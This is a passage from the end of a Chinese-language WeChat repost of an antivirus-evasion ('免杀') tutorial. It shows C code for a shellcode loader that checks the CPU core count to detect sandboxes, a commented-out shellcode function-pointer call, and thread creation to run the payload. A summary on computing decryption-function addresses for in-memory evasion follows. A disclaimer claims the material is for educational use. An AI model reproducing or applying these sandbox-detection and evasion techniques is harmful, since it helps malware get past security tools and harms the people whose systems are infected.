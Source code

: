         return 0;  
    }  
      
    int main(int argc, char* argv[])  
    {  
      
        //检查CPU核心数，判断是否是沙箱  
        INT cores = checkCPUCores(4);  
        if (cores <= 4)  
        {  
            //((void(*)(void))&shellcode)();  //函数指针执行ShellCode  
            //创建一个新的线程    
            HANDLE hThread = ::CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL);  
      
            //如果不在其他的地方，关闭句柄      
            ::CloseHandle(hThread);   
      
        }  
        while(1)  
        {  
            OutputDebugString("Hello World!\n");//打印调试信息  
        }  
        return 0;  
    }  
      
    

# 0x05 总结

本篇介绍的方法，类似于写入汇编指令，只不过 call
调用的地址需要我们自己去计算，如果代码存在变动（汇编指令增加）的情况，如增加全局变量，那么需要重新计算解密函数的地址。虽然麻烦，但很灵活，学习成本较低，效果明显。

>  **文章来源：奇安信攻防社区**

  

黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！

如侵权请私聊我们删文  

  

 **END**

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 免杀|计算地址实现内存免杀

[ 黑白之道 ](javascript:void\(0\);)

轻触阅读原文
